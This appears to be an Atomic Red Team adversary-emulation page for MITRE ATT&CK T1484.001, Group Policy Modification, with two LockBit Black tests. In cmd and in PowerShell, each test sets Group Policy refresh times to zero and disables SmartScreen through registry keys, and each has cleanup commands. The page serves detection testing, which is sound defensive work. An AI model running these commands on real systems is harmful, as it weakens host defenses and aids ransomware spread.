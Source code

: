 # T1484.001 - Domain Policy Modification: Group Policy Modification

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1484/001)

<blockquote>Adversaries may modify Group Policy Objects (GPOs) to subvert the intended discretionary access controls for a domain, usually with the intention of escalating privileges on the domain. Group policy allows for centralized management of user and computer settings in Active Directory (AD). GPOs are containers for group policy settings made up of files stored within a predictable network path `\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`.(Citation: TechNet Group Policy Basics)(Citation: ADSecurity GPO Persistence 2016)

Like other objects in AD, GPOs have access controls associated with them. By default all user accounts in the domain have permission to read GPOs. It is possible to delegate GPO access control permissions, e.g. write access, to specific users or groups in the domain.

Malicious GPO modifications can be used to implement many other malicious behaviors such as [Scheduled Task/Job](https://attack.mitre.org/techniques/T1053), [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001), [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105), [Create Account](https://attack.mitre.org/techniques/T1136), [Service Execution](https://attack.mitre.org/techniques/T1569/002), and more.(Citation: ADSecurity GPO Persistence 2016)(Citation: Wald0 Guide to GPOs)(Citation: Harmj0y Abusing GPO Permissions)(Citation: Mandiant M Trends 2016)(Citation: Microsoft Hacking Team Breach) Since GPOs can control so many user and machine settings in the AD environment, there are a great number of potential attacks that can stem from this GPO abuse.(Citation: Wald0 Guide to GPOs)

For example, publicly available scripts such as <code>New-GPOImmediateTask</code> can be leveraged to automate the creation of a malicious [Scheduled Task/Job](https://attack.mitre.org/techniques/T1053) by modifying GPO settings, in this case modifying <code>&lt;GPO_PATH&gt;\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml</code>.(Citation: Wald0 Guide to GPOs)(Citation: Harmj0y Abusing GPO Permissions) In some cases an adversary might modify specific user rights like SeEnableDelegationPrivilege, set in <code>&lt;GPO_PATH&gt;\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf</code>, to achieve a subtle AD backdoor with complete control of the domain because the user account under the adversary's control would then be able to modify GPOs.(Citation: Harmj0y SeEnableDelegationPrivilege Right)</blockquote>

## Atomic Tests

- [Atomic Test #1 - LockBit Black - Modify Group policy settings -cmd](#atomic-test-1---lockbit-black---modify-group-policy-settings--cmd)

- [Atomic Test #2 - LockBit Black - Modify Group policy settings -Powershell](#atomic-test-2---lockbit-black---modify-group-policy-settings--powershell)

<br/>

## Atomic Test #1 - LockBit Black - Modify Group policy settings -cmd

An adversary can modify the group policy settings.

**Supported Platforms:** Windows

**auto_generated_guid:** 9ab80952-74ee-43da-a98c-1e740a985f28

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeDC /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffsetDC /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTime /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffset /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v EnableSmartScreen /t REG_DWORD /d 0 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v ShellSmartScreenLevel /t REG_SZ /d Block /f
```

#### Cleanup Commands:

```cmd
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeDC /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffsetDC /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTime /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v GroupPolicyRefreshTimeOffset /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v EnableSmartScreen /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Policies\Microsoft\Windows\System" /v ShellSmartScreenLevel /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #2 - LockBit Black - Modify Group policy settings -Powershell

An adversary modifies group policy settings

**Supported Platforms:** Windows

**auto_generated_guid:** b51eae65-5441-4789-b8e8-64783c26c1d1

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeDC -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffsetDC -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTime -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffset -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name EnableSmartScreen -PropertyType DWord -Value 0 -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name ShellSmartScreenLevel -Force
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeDC -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffsetDC -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTime -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name GroupPolicyRefreshTimeOffset -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name EnableSmartScreen -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\System" -Name ShellSmartScreenLevel -Force -ErrorAction Ignore
```

<br/>
